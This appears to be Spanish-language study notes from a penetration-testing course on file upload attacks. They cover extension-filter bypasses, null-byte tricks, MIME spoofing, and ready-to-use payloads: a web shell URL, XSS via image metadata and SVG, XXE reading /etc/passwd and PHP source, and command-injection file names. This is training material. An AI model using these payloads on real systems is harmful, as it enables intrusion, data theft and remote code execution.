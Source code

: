 
http://caca.com/uploads/shell.php?cmd=id

## Blacklist filters

Cuando hay una validación de la extensión en el backend donde compara la extensión del archivo con una serie de extensiones de su blacklist

PASOS PARA BYPASSEARLO

1. Fuzzear extensiones y ver cuales están en la blacklist y cuales no
2. Probas a subir shells con las extensiones que te deja para ver si alguna ejecuta la shell

## Whitelist filters

Cuando hay una lista de extensiones que SI deja utilizar

1.Si comprueba que existe una extension de la whitelist en el archivo sin comprobar que es la última extension

 En estos casos usamos las extensiones dobles ,Ej:
 `ejemplo.jpg.php` -> en este caso bypasseamos el filtro porque la web 
 comprueba que el .jpg está 

2.Cuando comprueba la última extensión
 En este caso invertimos las extensiones para que bypasseemos la whitelist 
 pero eso puede no ser suficiente porque el que se ejecute el php o no       
 depende de como este configurado el servidor, esto lo sabremos mejor 
 si el servidor es un open source y podemos ver como trata las extensiones

### Character injection

Se puede jugar con php para que interprete de manera errónea las extensiones con carácteres:
- `%20`
- `%0a`
- `%00`
- `%0d0a`
- `/`
- `.\`
- `.`
- `…`
- `:`
El `%00` sirve para versiones de PHP 5.X y anteriores , es el null byte y nos sirve para bypassear el filtro de forma que luego se guarde sin la extensión de detrás del null byte. Ej: `shell.php%00.jpg -> shell.php`

En servidores windows pasa lo mismo pero con `:`  Ej: `shell.php:.jpg -> shell.php`  no es con php si no con cualquier extensión

## Type filters

En este caso no validan la extensión como en los casos anteriores sino que validan el contenido del archivo , los casos más comunes son `Content-Type Header` y `File Content`

Esto se nota cuando los bypasses anteriores no nos funcionan y tampoco subir una shell que se llame shell.png ,si la extension png está autorizada y todavía nos da error puede ser porque la web compruebe también el contenido del archivo asi que simplemente cambia el content-type a lo que te deje

## MIME-Type

En este caso se comprueban los llamados Magic Bytes, por ejemplo si un archivo empieza con `GIF87a` entonces es porque es un GIF y esos bytes son los que comprueba la app para ver si tu archivo es adecaudo

## Concatenar con otras vulnerabilidades 

A veces la web está bien protegida ante los ataques vistos anteriormente pero puede ser que a través de una upload podamos agregar a la web una vulnerabilidad nueva 

### XSS

-Subir archivos html que exploten stored XSS

-Cuando una web además de guardar la foto la enseña sus metadatos:
```shell-session
bonack@htb[/htb]$ exiftool -Comment=' "><img src=1 onerror=alert(window.origin)>' HTB.jpg
```
También puede ser que si de la foto le quitamos los Magic Bytes la web interprete la imagen como texto y por ende que eneseñe el XSS sin necesidad de que se vean explicitamente los metadatos

-Si te deja meterle .svg como imagen podríamos explotar XSS cada vez que  se muestre la foto : 
```XML
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg xmlns="http://www.w3.org/2000/svg" version="1.1" width="1" height="1">
    <rect x="1" y="1" width="1" height="1" fill="green" stroke="black" />
    <script type="text/javascript">alert(window.origin);</script>
</svg>
```

### XXE

-Para mostrar /etc/passwd (hay que usar extensión .svg)
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg>&xxe;</svg>
```
-Para leer el código fuente:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<svg>&xxe;</svg>
```

### DoS

Si quieres info de DoS con file upload attacks te lo buscas guapo

## Command injection

si subimos un archivo que en el nombre tiene un comando y el nombre del archivo entero es ejecutado en un OS puede dar un command injection

`file$(whoami).jpg` 
``file`whoami`.jpg`` 
`file.jpg||whoami`

lo mismo se aplica con XSS y SQLi : `file';select+sleep(5);--.jpg`
